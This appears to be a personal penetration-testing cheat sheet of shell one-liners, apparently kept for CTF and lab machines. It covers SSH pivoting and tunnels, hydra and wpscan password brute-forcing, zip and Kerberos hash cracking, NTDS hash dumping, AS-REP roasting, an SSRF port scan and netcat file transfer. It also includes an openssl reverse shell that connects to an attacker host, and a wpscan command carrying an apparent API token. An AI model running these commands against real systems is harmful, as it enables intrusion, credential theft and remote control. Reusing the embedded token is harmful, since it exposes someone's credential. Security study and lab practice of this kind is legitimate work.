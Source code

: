 


## SSH Tunneling 101
```bash
# SSH local port forward to reach  an_internal_server_ip:port via server_ip
ssh tunneler@server_ip -p 2222 -L 1234:an_internal_server_ip:80 
# Now curl localhost:1234 will fetch an_internal_server_ip:80 which is reachable from server_ip only

# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip
ssh tunneler@server_ip -p 2222 -D 1080 
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from server_ip only

# ProxyJump ssh to an_internal_host via ssh server_ip
ssh -J tunneler@server_ip:2222 whistler@an_internal_host # which is only accessible from server_ip

# SSH remote port forward to send traffic back to our local port from a port of server_ip
ssh whistler@server_ip -p 2222 -L 58671:localhost:1234 # 
# this will listen on port 58671 of server_ip and tunnel the traffic back to us on loclahost:1234; nc -nlvp 1234 to receive for example

# Chain ProxyJump + dynamic port forward to create a proxy of 2nd_box which is only accessible via 1st_box
ssh -j firstuser@1st_box:2222 seconduser@2nd_box -D 1080
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from 2nd_box only

# bypass first time prompt when have non-interactive shell

ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ...

```

## SSH reverse tunneling
```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```

## create self-signed ssl certificate
```bash
openssl req -newkey rsa:2048 -nodes -keyout my_cert.key -x509 -days 36
2 -out my_cert.crt

# convert to .pem if needed:
openssl pkcs12 -export -in my_cert.crt -inkey my_cert.key -out my_cert.p12
openssl pkcs12 -in my_cert.p12 -nodes -out my_cert.pem
```

## searchsploit
```bash
searchsploit -www query # show exploitdb link instead
searchsploit -x /path/to/exploit # read the exploit file
searchsploit -m /path/to/exploit # mirror exploit file to current directory
```


## hydra web form bruteforce
```bash
hydra -l admin -P ~/git/SecLists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.75 http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

hydra -l admin -P ~/git/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64 # 64 threads
# change to https-web-form for port 443
```
## hydra ssh brute
```bash
hydra -l username -P wordlist.txt ssh://<Target-IP> -s 22222
```

## get glibc version
```bash
ldd --version
```
## compile for 32 bit from a 64bit os, install `gcc-multilib` first
```bash
gcc -m32 -D_GNU_SOURCE -o suid32 suid.c
```
## transfer files through netcat
```bash
# start listening for download
nc -nlvp 9001 > dump.txt
# start uploading from target box
nc ip port < file.txt

```


## bruteforce zip file with fcrackzip
```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace.zip 
```
## bruteforce zip file with john
```bash
zip2john myfile.zip > johnkey
john johnkey --wordlist=/usr/share/wordlists/rockyou.txt
```

## port knocking on 3 ports using nmap
```bash
for x in $(echo 22 23 24);do nmap -PN --host-timeout 201 --max-retries 0 -r -p$x 192.168.0.106;done
```

## classic gobuster
```bash
gobuster dir -u http://10.10.10.55:8080 -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3831.6 Safari/537.36' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster/http-dlist-lower-small.txt
```

## list contents of .vhd file
```bash
7z l filename.vhd
```


## do a local port scan using SSRF
```bash
# --hl=2 is hide responses that has 2 lines. 
wfuzz -c --hl=2 -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

## dump password hasshes from ntds dump file using system hive file and the dit file
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.bin LOCAL
# tip: users ending with $ are system accounts and has hard passwords, look for other ones
```
## wpscan enum all plugins 
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive --force --api-token o3Oj8OysJNmHbVf5PoEMe6ASLUrac3Q5KJB8G0aguz4
```

## wpscan brute
```bash
wpscan --usernames tom -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url http://192.168.137.131/prehistoricforest/ --no-update
```

## generate client certificate from ca.key
```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out rh.pem
openssl pkcs12 -export -in rh.pem -inkey ca.key -out rh.p12
```

## openssl reverse shell 
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## generate passwd hash with openssl
```sh
openssl passwd -1 -salt rh0x01 password123
```

## check ASREPRoast for all domain users (without credentials)
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## john crack krb5asrep hash
```bash
john --format:krb5asrep alfresco.kerb --wordlist=/usr/share/wordlists/rockyou.txt
```


## generate password wordlist with crunch
```bash
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
# 13 13 - min max length
# bev - start's with
# @ will insert lower case characters
# , will insert upper case characters
# % will insert numbers
# ^ will insert symbols
```


## mount nfs share
```bash
mount -t nfs -o vers=3 10.1.1.1:/home/ ~/home


mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint
```

## mount smb share
```sh
sudo mount -t cifs //10.1.1.1/'sharename' /home -o rw,vers=1.0,dir_mode=0777,file_mode=0777,nounix
# or
sudo mount -t cifs -o vers=1.0 //10.11.1.136/'Sharename' sharemount
```

## login to windows machine in the network with proxychains

```bash
xfreerdp /u:admin /v:ip_address +clipboard
```


LINK - https://raw.githubusercontent.com/rayhan0x01/my-cmd-stash/master/linux_cmd.md
